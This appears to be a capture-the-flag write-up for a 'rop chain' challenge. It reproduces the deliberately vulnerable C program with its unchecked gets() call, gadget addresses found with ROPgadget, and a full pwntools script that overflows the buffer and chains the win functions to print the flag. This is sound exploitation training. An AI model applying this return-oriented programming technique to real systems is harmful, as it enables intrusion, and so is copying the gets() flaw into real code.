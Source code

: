 rop chain - Points: 350
===========

## Description

>Can you exploit the following program and get the flag? 

## Hint:

> * Try and call the functions in the correct order!
> * Remember, you can always call main() again!


## Vulnerable Code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdbool.h>

#define BUFSIZE 16

bool win1 = false;
bool win2 = false;


void win_function1() {
  win1 = true;
}

void win_function2(unsigned int arg_check1) {
  if (win1 && arg_check1 == 0xBAAAAAAD) {
    win2 = true;
  }
  else if (win1) {
    printf("Wrong Argument. Try Again.\n");
  }
  else {
    printf("Nope. Try a little bit harder.\n");
  }
}

void flag(unsigned int arg_check2) {
  char flag[48];
  FILE *file;
  file = fopen("flag.txt", "r");
  if (file == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(flag, sizeof(flag), file);
  
  if (win1 && win2 && arg_check2 == 0xDEADBAAD) {
    printf("%s", flag);
    return;
  }
  else if (win1 && win2) {
    printf("Incorrect Argument. Remember, you can call other functions in between each win function!\n");
  }
  else if (win1 || win2) {
    printf("Nice Try! You're Getting There!\n");
  }
  else {
    printf("You won't get the flag that easy..\n");
  }
}

void vuln() {
  char buf[16];
  printf("Enter your input> ");
  return gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
}
```

## Useful Information

There is no check of the input length at :
> *  return gets(buf);

**TOOL** :[ROPgadget](https://github.com/JonathanSalwan/ROPgadget)

```bash
$ROPgadget --binary rop-chain|grep " : pop ... ; ret"
...
0x0804840d : pop ebx ; ret

$nm rop-chain|grep win_ && nm rop-chain|grep flag
080485cb T win_function1
080485d8 T win_function2
0804862b T flag
```


## Exploit


> 1. Execute Win1()
> 2. Execute Win2() with good parameters
> 3. Execute Flag() with good parameters

**PAYLOAD : BUFFER+ADR_WIN1+ADR_WIN2+POP_1+ARG+ADR_FLAG+ADR_RET+ARG**

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pwn import *


win_function1 = 0x80485cb
win_function2 = 0x80485d8
flag          = 0x804862b
pop_ret       = 0x0804840d

#To Complete
user=""
password=""
host=""

path_exec="/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9/rop"
Name_prog="rop-chain"

sh = ssh(host=host,user=user,password=password).run("sh")

#Read and print
adr=sh.recv().decode("utf-8")
print(adr)

pay="A"*28
pay+=p32(win_function1)
pay+=p32(win_function2)+p32(pop_ret)+p32(0xBAAAAAAD)
pay+=p32(flag)+"XXXX"+p32(0xDEADBAAD)


sh.sendline("cd "+"/problems/rop-chain_4_6ba0c7ef5029f471fc2d14a771a8e1b9")
sh.sendline("./rop")
sh.recv()
sh.sendline(pay)
sh.recv()
print(sh.recv())
sh.close()

```
